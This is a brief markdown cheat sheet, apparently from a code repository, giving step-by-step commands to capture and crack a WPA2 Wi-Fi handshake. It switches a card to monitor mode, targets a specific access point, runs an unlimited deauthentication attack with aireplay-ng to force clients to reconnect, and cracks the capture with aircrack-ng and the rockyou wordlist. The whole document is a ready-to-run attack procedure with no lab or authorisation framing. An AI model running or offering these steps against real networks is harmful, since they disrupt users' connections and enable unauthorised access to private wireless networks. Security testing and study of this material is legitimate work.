 
# WPA2 Handshake

`cat /etc/os-release`
`uname -a`

- Show interfaces
`ip addr`
`iwconfig`

- Kill processes
`sudo airmon-ng check kill`

- Start monitor mode
`sudo airmon-ng start wlan0`

- Verify that monitor mode is used
`sudo airmon-ng`

- You could also use iwconfig to check that interface is in monitor mode
`iwconfig`

- Get the AP's MAC address and channel
`sudo airodump-ng wlan0mon`

- AP-MAC & channel - select channel**
`ESSID: 90:9A:4A:B8:F3:FB`
**Channel used by AP for SSID: 2**

- Make sure you replace the channel number and bssid with your own
- Replace hack1 with your file name like capture1 or something
`sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon`

- Deauth attack
- Make sure you replace the bssid with your own
`sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon`

- Use Wireshark to open hack file
`wireshark hack1-01.cap`

- Filter Wireshark messages for EAPOL
`eapol`

- Stop monitor mode
`airmon-ng stop wlan0mon`

- Crack file with Rock you or another wordlist
- Make sure you have rockyou in text format (unzip file on Kali)**
- Replace hack1-01.cap with your file name
`aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`
